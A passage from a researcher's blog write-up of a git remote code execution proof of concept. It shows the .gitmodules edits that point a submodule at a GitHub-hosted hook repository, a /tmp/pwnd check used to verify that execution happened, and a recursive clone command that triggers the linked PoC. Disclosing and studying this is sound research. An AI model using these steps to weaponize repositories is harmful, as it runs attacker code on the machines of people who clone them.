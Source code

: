 I checked `/tmp/pwnd`:

![](https://github.com/amalmurali47/blog/assets/3582096/24cb13ad-2ce9-473c-bed0-8b6773251a84)

Verification of the payload execution, confirming the RCE worked

It was pretty neat. However, I was using a local repository in my `git clone` command: `git clone --recursive captain hooked`. I wanted to reproduce it using a remote repository URL. After all, that’s what a real-world attacker would do.

Weaponizing a GitHub repository
-------------------------------

The git submodule in the `captain` repository was pointing to the `hook` repository using a local file system path:

```
$ cat captain/.gitmodules
[submodule "x/y"]
        path = A/modules/x
        url = C:/Users/user/rce/hook


```

I replaced it with an SSH URL:

```
[submodule "x/y"]
	path = A/modules/x
	url = git@github.com-hook:amalmurali47/hook.git


```

After making this change, I uploaded both the `captain` and `hook` repositories to GitHub. With everything in place, I performed a recursive clone from my terminal to test the setup.

**Execution on Windows:** ![](https://github.com/amalmurali47/blog/assets/3582096/e41d8e2e-81b6-4e68-a9e6-4489450c918d)

Successful RCE execution on Windows via remote GitHub repo URL

**Execution on Mac:** ![](https://github.com/amalmurali47/blog/assets/3582096/08d5c16c-c916-4d32-b49e-1ab0a0f0e789)

Successful RCE execution on Mac via remote GitHub repo URL

I had the full exploit working in less than 30 minutes. Not bad for an afternoon’s work!

You can find the complete PoC repository on GitHub: [amalmurali47/git_rce](https://github.com/amalmurali47/git_rce). This repository contains submodule and the exploit script. Additionally, the malicious submodule repository containing the hook is available here: [amalmurali47/hook](https://github.com/amalmurali47/hook).

To reproduce the exploit, clone the repository recursively as shown below:

```
git clone --recursive git@github.com:amalmurali47/git_rce.git


```

